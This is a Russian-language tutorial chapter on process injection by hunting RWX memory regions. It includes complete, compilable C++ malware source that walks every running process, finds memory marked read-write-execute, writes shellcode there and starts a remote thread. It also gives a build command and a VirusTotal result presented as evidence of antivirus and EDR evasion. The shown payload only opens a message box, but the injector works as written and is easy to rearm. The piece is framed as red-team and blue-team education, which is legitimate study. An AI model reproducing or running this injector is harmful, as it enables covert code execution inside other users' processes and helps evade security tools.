\newpage
\subsection{28. Инъекция в процесс через поиск RWX-памяти. Простой пример на C++.}

﷽

{width="80%"}    

Этот раздел посвящен самостоятельному изучению ещё одной техники инъекции в процесс.    

### поиск RWX-памяти    

Давайте рассмотрим логику [классического](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html) вредоносного кода для инъекции:    
```cpp
//...
// выделение буфера памяти для удаленного процесса
rb = VirtualAllocEx(ph, NULL, my_payload_len, 
(MEM_RESERVE | MEM_COMMIT), 
PAGE_EXECUTE_READWRITE);

// "копирование" данных между процессами
WriteProcessMemory(ph, rb, my_payload, 
sizeof(my_payload), NULL);

// наш процесс запускает новый поток
rt = CreateRemoteThread(ph, NULL, 0, 
(LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
//...
```

Как мы помним, функция `VirtualAllocEx` позволяет выделить буфер памяти в удаленном процессе, затем `WriteProcessMemory` копирует туда данные, а `CreateRemoteThread` указывает, в каком процессе нужно запустить новый поток.    

А что если попробовать другой способ? Можно перебирать все запущенные целевые процессы в скомпрометированной системе, искать среди их выделенных блоков памяти те, которые защищены с помощью RWX, и попытаться записать/прочитать/выполнить их. Это может помочь обойти некоторые антивирусы и EDR.    

### практический пример

Алгоритм этой техники довольно прост, давайте разберём его:    

Перебираем все процессы в системе:    

{width="80%"}    

Перебираем все выделенные блоки памяти в каждом процессе:    

{width="80%"}    

Затем проверяем, защищён ли блок памяти с помощью `RWX`:    

{width="80%"}    

Если да, выводим найденный блок памяти (*для демонстрации*):    

{width="80%"}    

Записываем наш полезный код в этот блок памяти:    

{width="80%"}    

Затем запускаем новый удалённый поток:    

{width="80%"}    

Полный исходный код нашего вредоносного ПО на C++:


```cpp
/*
hack.cpp
process injection technique via 
RWX memory hunting
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/02/01/malware-injection-16.html
*/
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  MEMORY_BASIC_INFORMATION m;
  PROCESSENTRY32 pe;
  LPVOID address = 0;
  HANDLE ph;
  HANDLE hSnapshot;
  BOOL hResult;
  pe.dwSize = sizeof(PROCESSENTRY32);

  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return -1;

  hResult = Process32First(hSnapshot, &pe);

  while (hResult) {
    ph = OpenProcess(MAXIMUM_ALLOWED, false, pe.th32ProcessID);
    if (ph) {
      printf("hunting in %s\n", pe.szExeFile);
      while (VirtualQueryEx(ph, address, &m, sizeof(m))) {
        address = (LPVOID)(
        (DWORD_PTR)m.BaseAddress + m.RegionSize);
        if (m.AllocationProtect == PAGE_EXECUTE_READWRITE) {
          printf("rwx memory successfully found at 0x%x :)\n", 
          m.BaseAddress);
          WriteProcessMemory(ph, m.BaseAddress, 
          my_payload, sizeof(my_payload), NULL);
          CreateRemoteThread(ph, NULL, NULL, 
          (LPTHREAD_START_ROUTINE)m.BaseAddress, 
          NULL, NULL, NULL);
          break;
        }
      }
      address = 0;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }
  CloseHandle(hSnapshot);
  CloseHandle(ph);
  return 0;
}

```

Как обычно, для простоты я использовал всплывающее окно с сообщением `meow-meow` в качестве полезной нагрузки:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### демо

Давайте посмотрим, как всё работает. Компилируем наш практический пример:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}   

Затем запускаем! В нашем случае целевая машина — `Windows 10 x64`:    

{width="80%"}  

Как видно, всё работает идеально! :)    

Проверим один из целевых процессов, например, `OneDrive`:    

{width="80%"}  

{width="80%"}  

> Есть один нюанс. Представленный ниже код является сырым proof-of-concept и может вызывать сбои в работе определённых процессов. Например, в моём случае `SearchUI.exe` аварийно завершился и не работал после запуска моего примера.    

Загружаем вредоносное ПО на VirusTotal:    

{width="80%"}    

[https://www.virustotal.com/gui/file/5835847d11b7f891e70681e2ec3a1e22013fa3ffe31a36429e7814a3be40bd97/detection](https://www.virustotal.com/gui/file/5835847d11b7f891e70681e2ec3a1e22013fa3ffe31a36429e7814a3be40bd97/detection)    

**Итак, 7 из 69 антивирусных движков обнаруживают наш файл как вредоносный.**    

Результат `Moneta64.exe`:

{width="80%"}    

Преимущество этой техники в том, что она не требует выделения новой `RWX` памяти для копирования полезной нагрузки с помощью `VirtualAllocEx`, который является более популярным и подозрительным, а также более тщательно исследуется синими командами.    

Я надеюсь, что этот раздел повысит осведомленность синих команд об этой интересной технике и добавит ещё одно оружие в арсенал красных команд.

[VirtualQueryEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualqueryex)    
[CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot)    
[Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first)    
[Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next)    
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[Taking a snapshot and viewing processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)    
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)    
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)    
[Hunting memory](https://www.elastic.co/blog/hunting-memory)    
[Moneta64.exe](https://github.com/forrest-orr/moneta)    
[исходный код на Github](https://github.com/cocomelonc/2022-02-01-malware-injection-16)    
